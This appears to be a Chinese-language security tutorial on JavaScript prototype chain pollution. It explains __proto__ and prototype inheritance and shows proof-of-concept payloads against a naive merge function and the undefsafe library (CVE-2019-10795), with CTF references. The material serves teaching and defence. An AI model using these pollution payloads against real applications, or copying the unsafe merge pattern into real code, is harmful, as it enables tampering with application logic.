

# 原型链污染介绍

## Javascript的继承与原型链

```javascript
//所以可以像这样以创建函数的方式创建一个类
function a(){
 b=2
 this.func = () => console.log(b)
}
obj = new a() //实例对象obj
obj.func()
```

在javascript中，一切都是对象，他也只有对象这一种结构。而对象和对象间又存在继承关系。

```javascript
var test = {
 a:1 ,
 m: function(){
  console.log(this.a);
  }
};
var p = Object.create(test);//p继承test

p.a=4;//继承test的变量
p.m();//继承test的函数
/**result
4
**/
```

每个实例对象(`object`)都有一个私有属性(`__proto__`)指向它的构造函数的原型对象(`prototype`)，每个实例对象还有一个属性(`constructor`)指向原型的构造函数。该原型对象也有一个自己的原型对象(`__proto__`)，层层向上直到一个对象的原型对象为`null`。根据定义，`null` 没有原型，并作为这个原型链中的最后一个环节。


```javascript
function test(){
 b=2
 this.func = () => console.log(b)
}
obj = new test()
obj.func()

test.prototype === obj.__proto__
test.prototype.constructor === test
obj.__proto__.constructor === test
```

1. 原型 任何对象都有一个原型对象，这个原型对象由对象的内置属性\_\_proto_它的构造函数的prototype指向的对象，即任何对象都是由一个构造函数创建的
2. 原型链 原型链的核心就是依赖对象`__proto__`的指向，当访问的属性在该对象不存在时，就会向上从该对象构造函数的`prototype`的进行查找，直至查找到Object的原型null为止。

--------------------------------------------------上文来自稻草人安全公众号--------------------------------------------------------------------------

```javascript
> var a={b:3}
undefined
> console.log(a)
{ b: 3 }
undefined
> console.log(a.__proto__)
{}
undefined
> a.__proto__.c='5'
'5'
> console.log(a)
{ b: 3 }
undefined
> console.log(a.c)
5
undefined
>        
```

# 原型链污染应用

## 赋值函数进行原型链污染

### 对象合并(merge)


```javascript
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
let object1 = {}
let object2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')   //JSON解析,这里必须加上,不然__proto__就会被解析,而不是被当为键值
merge(object1, object2)
console.log(object1.a, object1.b)
object3 = {}
console.log(object3.b)
```

`merge`函数首先迭代第二个对象b上的所有属性(因为在相同的键值对的情况下，第二个对象是优先的)。
如果属性同时存在于第一个和第二个参数上，并且它们都是`Object`类型，那么`Merge`函数将重新开始合并它。



## 第三方库进行原型链污染

### undefsafe- CVE-2019-10795

#### undefsafe介绍

undefsafe是一款支持设置值的函数。

undefsafe 2.0.3之前版本中存在安全漏洞。攻击者可借助‘a’函数利用该漏洞添加或修改Object.prototype属性。

```
npm install --save undefsafe@2.0.0
```

#### undefsafe用处

```javascript
var object = { 
	a: {
		b: {
			c: 1, 
			d: [1,2,3], 
			e: 'qqqq' 
		} 
	} 
};
console.log(object.a.b.e) 
console.log(object.a.c.e) 
// TypeError: Cannot read property 'e' of undefined 
```

可以看到最后一个输出的报错的，如果是大量的编程就会报错，为了解决这个问题，我们使用

undefsafe帮助我们解决

#### 使用undefsafe解决报错

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(a(object,'a.b.e')) //qqqq console.log(a(object,'a.c.e')) //undefined
```

可以看到如果使用undefsafe模块来引用，在访问对象不存在的属性的时候不会报错，而是undefined (解决了报错的问题)

#### 使用undefsafe修改存在对象的属性

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' } } }
a(object,'a.b.c','yes')     
a(object,'a.d.c','no')
console.log(object)//{ a: { b: { c: 'yes', d: [Array], e: 'qqqq' }, c: 'no' } }
```

#### 使用underfsafe修改不存在对象的属性

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' } } }
a(object,'a.f.e','nice')//修改不存在的属性 
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' }, e: 'nice' } }
```

#### undefsafe模块漏洞分析

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
a(object,"__proto__.evil","hacker")
console.log(object.evil)//hacker
```

ctf例题:[网鼎杯 2020青龙组]notes

https://www.4hou.com/index.php/posts/Zppg

### 其他第三方库的原型链污染

前面的只是一个例子,这里还有一些其他的例子

```
https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html  //lodash库
antctf 8-bit pub    //shvl库
```

